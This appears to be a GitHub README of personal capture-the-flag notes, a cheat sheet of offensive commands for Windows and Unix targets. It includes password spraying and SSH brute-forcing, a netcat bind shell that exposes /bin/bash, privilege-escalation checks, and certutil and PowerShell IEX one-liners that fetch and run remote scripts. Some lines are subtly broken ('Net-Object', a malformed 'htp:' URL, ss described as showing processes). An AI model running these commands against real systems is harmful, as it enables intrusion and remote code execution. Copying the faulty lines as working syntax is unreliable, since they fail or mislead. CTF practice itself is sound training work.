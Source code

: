 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs

Windows & *nix:
<p> password spraying:
<p> - crackmapexec [module] -u [users.txt] -p [passwords.txt] [ip or ip range]
<p> bruteforce (more options may be required, example used was SSH module):
<p> - medusa -h [ip] -U [users.txt] -P [passwords.txt] -M [module] [ip] 
-----------------------------------------------------------------------------------------
</p>
<p> upgrade shell using python pty library and adds auto complete for steps 2+ :
<p> 1 - python -c 'import pty;pty.spawn("/bin/bash")'
<p> 2 - CTRL z
<p> 3 - stty raw -echo
<p> 4 - fg <enter key>
<p> 5 - export TERM=xterm

<p> known hosts ssh file will show all hosts the host has SSH'd into

<p> - command to reset a broke terminal session
<p> reset

<p> - mysql syntax for navigation:
<p> show databases; (shows available databases)
<p> use [database name]; (selects database to use)
<p> show tables; (shows tables in database)
<p> describe [table name]; (shows more information on values inside table)
<p> select [table value] from [table]; (shows items inside the table values of the table)
  
<p> - file upload (works with powershell and linux):
<p> curl http://[ip]:[port]/[file] -output [file]






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
